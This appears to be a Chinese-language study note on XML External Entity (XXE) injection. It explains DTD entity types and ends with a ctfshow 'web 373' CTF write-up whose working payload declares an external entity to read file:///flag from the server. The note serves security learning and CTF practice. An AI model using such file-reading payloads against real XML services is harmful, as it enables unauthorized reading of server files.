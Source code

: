 # XXE(XML External Entity Injection)

## 参考文章

[一篇文章带你深入理解漏洞之 XXE 漏洞 - 先知社区](https://xz.aliyun.com/t/3357)<br />[DTD 简介](https://www.w3school.com.cn/dtd/dtd_intro.asp)<br />[XXE(XML External Entity attack)XML外部实体注入攻击 - FreeBuf网络安全行业门户](https://www.freebuf.com/column/181064.html)

## XXE漏洞成因

### XML外部实体

![](https://cdn.nlark.com/yuque/0/2023/jpeg/29405061/1676431108001-e4a44dd6-01e6-4743-9fcd-4ca62358b252.jpeg#averageHue=%232b2c25&clientId=u33ed94a5-0591-4&from=paste&id=u4eadcc1e&originHeight=166&originWidth=690&originalType=url&ratio=2&rotation=0&showTitle=false&status=done&style=none&taskId=ufea4fdf7-97d4-44a0-82e8-661f01ddee3&title=)

1. 一般实体的声明：

引用一般实体的方法：&实体名称;<br />p.s.经实验，普通实体可以在DTD中引用，可以在XML中引用，可以在声明前引用，还可以在实体声明内部引用。<br />2. 参数实体的声明：<br />引用参数实体的方法：%实体名称;<br />p.s.经实验，参数实体只能在DTD中引用，不能在声明前引用，也不能在实体声明内部引用

1. 内部实体声明

- 当引用一般实体时，由三部分构成：&、实体名、
- 当是用参数传入xml的时候，&需URL编码，不然&会被认为是参数间的连接符号。

示例：

```
<?xml version = "1.0" encoding = "utf-8"?>
<!DOCTYPE test [
<!ENTITY writer "Dawn">
<!ENTITY copyright "Copyright W3School.com.cn">
]>
<test>&writer;©right;</test>
```

2. 外部实体声明

`<!ENTITY 实体名称 SYSTEM "URI/URL">`

- 外部实体可支持http、file等协议

## web 373(有回显)

![image.png](https://cdn.nlark.com/yuque/0/2023/png/29405061/1676431391524-8e12e0f1-390c-4eca-90fb-dc20079d684b.png#averageHue=%23fefefe&clientId=u33ed94a5-0591-4&from=paste&height=181&id=uc608b171&originHeight=362&originWidth=908&originalType=binary&ratio=2&rotation=0&showTitle=false&size=44209&status=done&style=none&taskId=ub88838f8-95fe-4f32-8274-c714f1fe31e&title=&width=454)

- 发现有回显，用file协议读取flag

```xml
<!DOCTYPE test [
<!ENTITY xxe SYSTEM "file:///flag">
]>
<x>
<ctfshow>&xxe;</ctfshow>
</x>
```

`<!DOCTYPE 根元素 [元素声明]>`

- 也就是服务器在loadXML后，会把`<x>`赋值给`$creds`
- `$creds`读取`ctfshow`，界面输出flag